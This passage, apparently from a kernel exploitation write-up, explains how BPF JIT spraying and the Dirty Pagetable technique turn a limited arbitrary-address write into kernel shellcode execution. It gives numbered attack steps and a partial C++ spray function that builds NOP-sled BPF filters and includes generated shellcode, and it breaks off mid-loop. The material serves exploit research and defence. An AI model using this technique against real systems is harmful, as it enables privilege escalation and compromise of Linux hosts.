 BPF JIT Spray works as follows:  
1. It effectively "sprays" large amounts of **executable code** (`r-x` regions) into the physical address space.  
2. By modifying the Page Table Entry (PTE) to point to a sprayed region, the code within that region can be transformed using the **Dirty Pagetable technique**.  

Although the physical address space is not guaranteed to be contiguous (unlike virtual addresses), the BPF JIT-compiled **`r-x` regions** are typically about **0x200000** in size. This property allows for a low-probability estimation of the address where the JIT-sprayed code resides.

1. Perform **BPF JIT Spray** to populate a large portion of the physical memory with executable code.  
2. Modify the PTE of a targeted memory region to redirect it to the sprayed physical address.  
3. Use the **Dirty Pagetable technique** to replace the sprayed region's code with the desired **shellcode**.  
4. Trigger **socket communication** to execute the modified shellcode.

- In a typical scenario, BPF JIT-compiled code resides at a physical address **below `0x100000000`**, whereas user memory is allocated above this boundary.  
- The 4-byte AAW alone cannot directly exploit addresses below `0x100000000`.  
- However, by allocating a significant amount of physical memory and then invoking **`mmap()`**, user memory can occasionally be mapped to physical addresses **below `0x100000000`**. This behavior allows exploitation under specific conditions.

1. Perform **BPF JIT Spray** extensively across the physical address space.  
2. Wait until the **shellcode** in the sprayed memory region is successfully modified.  
3. Trigger the shellcode execution, completing the exploit.  

By combining **BPF JIT Spray**, **Dirty Pagetable**, and strategic allocation of user memory, this method allows the execution of arbitrary code even under strict constraints.  

```cpp
int sc()
{
	int stopfd[2];
	SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, stopfd));
	unsigned int prog_len = 0x900;
	/* In current environment, the max instructions in a program is near 0x900
	And we test 0x900 instructions * 0x50 forks * 0x100 sockets * 4 = 180 MB is enough large to spray and worked reliably
	*/
	struct sock_filter table[] = {
		{.code = BPF_LD + BPF_K, .k = 0xb3909090},
		{.code = BPF_RET + BPF_K, .k = SECCOMP_RET_ALLOW}};

	/* 0xb3909090 is NOPsled shellclode to make exploitation more reliable
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
*/
	for (int i = 0; i < prog_len; i++)
		filter[i] = table[0];

	filter[prog_len - 1] = table[1];
	int idx = prog_len - 2;

#include "sc.h" // generated shellcode

	struct sock_fprog prog = {
		.len = prog_len,
		.filter = filter,
	};

	char buffer[0x1000];
	for (int k = 0; k < 0x50; k++)
```